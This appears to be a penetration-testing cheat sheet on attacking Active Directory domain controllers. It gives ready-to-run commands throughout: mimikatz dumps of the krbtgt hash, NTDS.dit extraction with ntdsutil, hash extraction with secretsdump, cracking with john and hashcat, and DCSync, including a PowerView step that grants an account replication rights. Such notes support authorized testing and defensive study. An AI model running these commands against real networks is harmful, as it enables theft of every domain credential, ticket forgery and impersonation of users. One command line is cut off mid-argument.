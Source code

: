 # Domain Controller specific

## TGT Dump

dump the hash used by the domain controller to sign Kerberos tickets. This allows an attacker to create custom tickets and impersonate other users or gain access to different services/hosts

```
lsadump::dcsync /user:krbtgt
sekurlsa::krbtgt
lsadump::lsa /inject /name:krbtgt
```

## NTDS Dump

NTDS is an encrypted database containing information about the structure and elements of the AD.

In order to dump the stored hashes we need to extract the following files.

```
C:\Windows\NTDS\ntds.dit
C:\Windows\System32\config\SYSTEM
C:\Windows\System32\config\SECURITY
```

To dump the required files use the following command in PowerShell

```
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full <dump folder>' q q"
```

Extract the hashes

```
secretsdump.py -security <security file> -system <system file> -ntds <path to ntds.dit> LOCAL
```

Crack the hashes.  In order to obtain the passwords we need only the NT part of the hash. given an hash with the following structure `AAAA:BBBB` the actual string to bruteforce is the one to the right of the column

```
john -format=NT -wordlist=<wordlist> <hashfile>
hashcat -m 1000 -a 0 --force --show --username <hash> <wordlist> #rows follow the format <user>:<hash>
```

## DC Sync&#x20;

To execute this attack we need to operate under a user with the `Replicating Directory Changes All` and `Replicating Directory Changes` privileges. By default Local and Domain Administrators own these privileges.

Find users with the required privileges with PowerView

```
Get-ObjectACL -DistinguishedName "dc=<domain>,dc=local" -ResolveGUIDs | ? {($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll') }
```

If the current user lacks the required permissions run this command on the DC to add them.

```
Add-ObjectAcl -TargetDistinguishedName "dc=<domain>,dc=local" -PrincipalSamAccountName <user
```

### Run on DC

```
lsadump::dcsync /user:krbtgt                    //Kerberos TGT
lsadump::dcsync /user:<user>                    //get user info 
lsadump::dcsync /domain:htb.local /all /csv     //dump all users
```

### Run remotely

```
secretsdump.py -just-dc  <domain>/<DC user>@<DC IP>      //dump NTDS
secretsdump.py -just-dc-ntlm <domain>/<DC user>@<DC IP>  //dump TGT
```
